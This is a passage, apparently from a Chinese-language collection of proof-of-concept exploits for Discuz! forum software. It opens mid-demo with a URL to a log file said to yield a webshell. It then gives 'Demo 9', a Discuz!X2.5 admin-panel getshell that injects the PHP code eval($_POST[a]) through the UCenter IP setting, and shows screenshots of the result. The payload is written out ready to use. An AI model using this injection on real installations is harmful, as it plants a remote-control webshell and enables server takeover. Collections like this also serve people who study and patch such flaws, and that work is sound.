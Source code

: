 可获取到webshell

http://www.80vul.com/bbs/forumdata/logs/runwizardlog.php

参考链接：http://blog.51cto.com/simeon/113131
#### 演示9：Discuz!X2.5最新版后台管理员权限Getshell
在后台-->站长-->Ucenter设置处设置UcenterIP为: XX\\');eval($_POST[a])?>;// XX

![](https://github.com/cckuailong/PocCollect/blob/master/Web/Discuz/image/68.png)

发现管理页面代码出来了

![](https://github.com/cckuailong/PocCollect/blob/master/Web/Discuz/image/69.png)
